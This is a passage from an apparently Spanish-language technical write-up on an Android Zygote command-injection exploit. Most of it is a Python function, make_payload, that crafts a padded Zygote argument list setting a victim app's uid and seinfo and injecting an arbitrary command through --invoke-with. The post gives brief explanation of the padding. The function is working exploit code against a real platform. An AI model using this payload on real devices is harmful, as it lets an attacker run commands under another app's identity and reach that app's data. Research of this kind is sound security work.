 Al final de la variable, incluimos unas líneas en blanco al principio y unas comas con una 'X' al final como _padding_; su propósito se aclarará en la siguiente sección. Por ahora, sabemos que funciona, así que las dejamos.

{% highlight python linenos %}
def make_payload(app, command):
    # get user id
    uid = get_app_uid(app)
    if uid is None:
        print("[-] Error: can't find uid.")
        return

    # construct zygote command
    payload = "8" + "\n"
    payload += "--runtime-args" + "\n"
    payload += f"--setuid={uid}" + "\n"
    payload += f"--setgid={uid}" + "\n"
    if is_system_app(app):
        payload += "--seinfo=platform:privapp:targetSdkVersion=30:complete" + "\n"
    else:
        payload += "--seinfo=default:targetSdkVersion=30:complete" + "\n"
    payload += "--runtime-flags=1" + "\n"
    payload += "--nice-name=zYg0te" + "\n"
    payload += "--invoke-with" + "\n"
    payload += command + " ; #" + "\n"
    
    # Padding in the top:
    # we leave five new lines before the command's argument count (8)
    # because when system server send the command to Zygote it places a 6
    # arguments count over --set-api-blacklist-exemptions
    top_padding = 5
    payload = "\n" * top_padding + payload

    # Padding in the bottom
    # We leave 5 commas and a X to delay a bit the  zygote read
    # because those commas are splited before... or because the guy of meta
    # says so.
    payload += ",,,,X"   + "\n"
    
    return payload
{% endhighlight %}

